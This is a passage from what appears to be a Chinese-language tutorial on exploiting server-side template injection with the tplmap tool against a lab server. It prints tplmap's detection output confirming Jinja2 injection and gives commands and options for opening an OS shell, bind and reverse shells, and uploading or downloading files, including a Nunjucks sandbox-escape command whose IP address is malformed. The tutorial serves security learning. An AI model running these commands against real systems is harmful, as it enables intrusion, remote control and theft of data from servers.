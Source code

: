 以上面复现的漏洞为例简单介绍一下用法：
```p
root@kali:/mnt/hgfs/共享文件夹/tplmap-master# python tplmap.py -u "http://192.168.1.10:8000/?name=Sea"                             //判断是否是注入点
[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if GET parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  GET parameter: name                //说明可以注入，同时给出了详细信息
  Engine: Jinja2
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok           //检验出这些利用方法对于目标环境是否可用
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:
                                                                  //可以利用下面这些参数进行进一步的操作
    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```
拿shell、执行命令、bind_shell、反弹shell、上传下载文件，Tplmap为SSTI的利用提供了很大的便利
```p
//获取更多参数信息，要善于利用帮助信息来学习
python tplmap.py -h
```
## 2、Nunjucks模板引擎沙箱逃逸
```p
python tplmap.py -u http://792.168.1.10:8000/?name=* --engine Nunjucks --os-shell
```
具体详情参考：[https://www.anquanke.com/post/id/84336](https://www.anquanke.com/post/id/84336)
## 3、使用训练

tplmap项目中附带有docker环境，可供学习和熟悉tplmap：
[https://github.com/epinna/tplmap/tree/master/docker-envs](https://github.com/epinna/tplmap/tree/master/docker-envs)
